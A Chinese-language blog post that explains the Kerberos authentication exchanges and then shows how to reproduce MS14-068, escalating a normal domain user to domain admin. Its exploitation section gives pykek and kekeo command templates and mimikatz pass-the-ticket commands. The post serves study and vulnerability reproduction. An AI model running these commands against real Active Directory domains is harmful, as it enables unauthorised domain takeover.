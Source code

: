 ```yaml
---
title: "域内 MS14-068 的利用"
date: 2019-07-15T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['domain','mimikatz']
categories: ['内网渗透','漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



Kerberos 认证流程以及域内 MS14-068 的利用

<!--more-->

## Kerberos 认证流程

KDC(Key Distribution Center) 包含 AS(Authentication Server) 和 TGS(Ticket Granting Server).

一次完整的 Kerberos 请求需要 Client Server KDC 的共同参与, 故称为 Kerberos (三只狗头).

### KRB\_AS\_REQ

Client 向 AS 发送用户名, 以用户 Hash 加密的时间戳及 Client 信息.

### KRB\_AS\_REP

AS 检测用户名是否有效, 之后生成一串随机字符作为 session-key, 并发送以用户 Hash 加密的 session-key, 以 krbtgt Hash 加密的 session-key 和时间戳作为 TGT(Ticket Granting Ticket).

### KRB\_TGS\_REQ

Client 通过用户 Hash 解密获得 session-key, 再将 TGT 与以 session-key 加密的时间戳发送给 TGS.


### KRB\_TGS\_REP

TGS 通过 krbtgt Hash 解密获得 session-key 和时间戳并检测有效性, 然后发送以 Server Hash 加密的 session-key-1 作为 TGS Ticket(Service Ticket) 和以 session-key 加密的 session-key-1.

### KRB\_AP\_REQ

Client 通过 session-key 解密获得 session-key-1, 并向 Server 发送 TGS Ticket 和以 session-key-1 加密的时间戳.

### KRB\_AP\_REP

Server 通过 Server Hash 解密 TGS Ticket 获得 session-key-1, 之后再次解密得到时间戳, 最后验证有效性.

## ms14-068

ms14-068 可将域内普通用户提升至域管理员权限. 其原理为在 Kerberos 认证流程中 Client 可拒绝向 AS 请求 PAC 以构造一份伪造的 PAC 欺骗 TGT. 

### pykek

通过 pykek 利用.

```
pykek -u <userName>@<domainName> -s <userSid> -d <domainControllerAddr> [-p <clearPassword>|--rc4 <ntlmHash>]
```

```
mimikatz "kerberos::ptc ticket.ccache" "exit"
```

### kekeo

通过 kekeo 利用.

```
ms14-068 /user:<userName> /domain:<domainName> /dc:<domainControllerAddr> /sid:<userSid> /password:<clearPassword> [/ptt]
```

```
mimikatz "kerberos::ptt ticket.kirbi" "exit"
```

利用时无须本地管理员权限. 域内用户也能通过以上两种方式 ptt.

注意如果在 windows 2003 中是无法通过 `kerberos::ptt` 和 `kerberos::ptc` 来导入凭据的.
